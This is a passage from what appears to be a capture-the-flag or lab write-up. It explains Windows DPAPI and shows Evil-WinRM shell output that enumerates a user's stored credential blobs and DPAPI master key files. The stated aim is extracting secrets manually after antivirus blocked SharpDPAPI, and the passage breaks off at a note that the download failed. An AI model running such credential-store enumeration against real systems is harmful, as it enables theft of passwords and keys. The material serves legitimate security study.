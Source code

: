 >  It’s a Windows built-in service that allows applications to securely store sensitive data (like passwords, encryption keys, etc.) by encrypting and decrypting it automatically.

- Encryption keys are tied to the user's Windows login credentials.
- When a user logs in, Windows can decrypt the data without asking for another password.
- It’s widely used inside Windows itself (e.g., to protect credentials in browsers, Wi-Fi passwords, etc.).

There is an AV on the machine so we couldn't run **SharpDPAPI.exe** for example, so i do it manually by following [this article](https://www.synacktiv.com/en/publications/windows-secrets-extraction-a-summary)

```powershell
*Evil-WinRM* PS C:\Users\c.neri\AppData\Roaming\Microsoft\Credentials> ls -force


    Directory: C:\Users\c.neri\AppData\Roaming\Microsoft\Credentials


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   5:08 PM            430 C4BB96844A5C9DD45D5B6A9859252BA6
```
```powershell
*Evil-WinRM* PS C:\Users\c.neri\AppData\Roaming\Microsoft\Credentials> Get-ChildItem C:\Users\c.neri\AppData\Roaming\Microsoft\Protect\


    Directory: C:\Users\c.neri\AppData\Roaming\Microsoft\Protect


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-          6/7/2024   1:17 PM                S-1-5-21-4024337825-2033394866-2055507597-1115
```
```powershell
*Evil-WinRM* PS C:\Users\c.neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115> ls -force


    Directory: C:\Users\c.neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   1:17 PM            740 4dbf04d8-529b-4b4c-b4ae-8e875e4fe847
-a-hs-          6/7/2024   1:17 PM            740 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
-a-hs-          6/7/2024   1:17 PM            904 BK-VINTAGE
-a-hs-          6/7/2024   1:17 PM             24 Preferred
```
<div style="
  background-color: #1b1b1d;
  border: 1px solid #ff4c4c;
  border-radius: 8px;
  padding: 16px;
  color: #e0e0e0;
  margin: 1.5em 0;
  font-family: system-ui, sans-serif;
">
  <p style="margin: 0 0 1em; font-weight: bold; color: #ff4c4c; font-size: 1.1em;">
    ⚠️ Warning
  </p>
  <p style="margin: 0 0 1em;">I tried to download it with DPAPI but it was not working.</p>
